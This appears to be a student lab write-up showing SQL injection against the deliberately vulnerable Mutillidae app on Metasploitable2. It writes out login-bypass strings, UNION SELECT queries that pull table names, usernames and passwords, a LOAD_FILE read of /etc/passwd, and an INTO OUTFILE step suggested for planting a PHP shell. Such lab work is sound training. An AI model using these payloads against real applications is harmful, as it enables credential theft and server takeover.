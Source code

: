 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/4db742df-f86e-42b5-8b43-164bd8e92d4d)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/7fa52bbe-7357-470b-a2a2-f7f366f1f0c7)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/d64bd86e-7869-4440-8ecd-90d6fc6b1ff5)

Click on the link “Please register here :

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/37e2e09f-058e-45de-b217-bc6729b81a25)

Click on “Create Account” to display the following page

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/f911dad4-31b7-484a-93d9-25761bf5b278)

Click “Login”. The logged in page will show as below

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/12c287e6-5c1d-4701-bc63-2da3a869679e)

### Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/dc56fc0b-064e-4b91-98f9-00f6024efa9b)

Click the login button and you will see it enter into the administrator page.

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/df4412e4-ba4b-4021-81d4-d1ad2b4c8220)
### Union-based SQL injection

UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below
![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/30f56152-baed-41f2-8c99-95606cc90c06)

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/475c4c14-13b3-41b4-9d05-38e2742cdb89)

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/fe47322c-934f-4424-a479-868c394cc13e)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/ca1d8208-d631-4c56-bbd3-340160a98a0e)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.
The browser url of this info page need to be modified with the url as below:
![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/c580f41d-af7a-4844-a8e5-3230f6a6d199)
After adding the order by 6 into the existing url , the following error statement will be obtained
![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/f13a6cf4-af52-4bfc-93b1-244dee8162f8)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/88d47d77-42c8-4958-8258-fcbc88526d72)
As it is having 5 columns the query worked fine and it provides the correct result

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/d2852de5-1f5c-40ac-a97b-9c722e75217b)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/cbe9925d-7ab3-41fe-8fd0-dec2256b5c07)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/bf4d6443-e64c-4a68-ab96-f76309b514ce)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/29e298c8-9e46-4c01-8c69-6c5fdd2d428b)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.
Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/cc89837e-0303-43d3-b3ba-471479307269)

The url once executed will retrieve table names from the “owasp 10” database. ### Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/3118daa1-36db-49a2-9420-fad68c093e73)

The column names of the accounts is displayed below for the following url:
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=bharathi%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/17f2c1e3-4515-4c89-baf1-49862ee2e496)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.
Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=bharathi%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/116696f7-20ea-4bd5-9f42-daab4cb1e93f)

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=bharathi%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/ac04a65a-b7ff-4d3e-8f82-3cebf5869355)

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/b0036b0c-7821-4930-a6ce-87a1350a0151)

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/923d2597-1bc1-4fad-a4b9-929be765dfd9)

![image](https://github.com/Dhanashreemullaithasan/sqlinjection/assets/94165415/491848e4-d00c-47be-a863-cdfac8dc53f8)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

RESULT:
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

